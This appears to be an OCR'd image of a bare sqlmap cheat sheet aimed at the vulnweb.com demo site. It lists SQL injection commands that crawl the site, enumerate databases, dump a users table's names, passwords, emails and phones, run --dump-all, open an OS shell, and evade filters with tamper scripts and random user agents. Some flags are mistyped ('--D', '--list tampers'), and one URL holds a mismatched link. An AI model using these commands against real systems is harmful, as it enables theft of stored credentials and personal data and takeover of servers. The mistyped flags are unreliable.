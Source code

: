 sqlmap -u http://www.vulnweb.com/ --crawl=3 --batch

sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --dbs --batch 

sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --D dbname --tables --batch 

sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --D dbname -T users --columns --batch 

sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --D dbname -T users -C name,pass,email,phone --dump --batch 

sqlmap -u http://www.vulnweb.com/ --crawl=3 --random-agent --ignore-redirects --batch

sqlmap -u [http://www.vulnweb.com/](http://testphp.vulnweb.com/artists.php?artist=1) --dbs --level=3 --threads=4 --batch

sqlmap --list tampers

sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --D dbname --tables --level=3 --random-agent --tamper=space2plus,randomcase --batch 


sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --os-shell --batch

sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --dump-all --batch 

sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --dump-all --proxy=127.0.0.1:8080 --batch 

sqlmap -u http://www.vulnweb.com/ --crawl=3 --risk=2 --batch
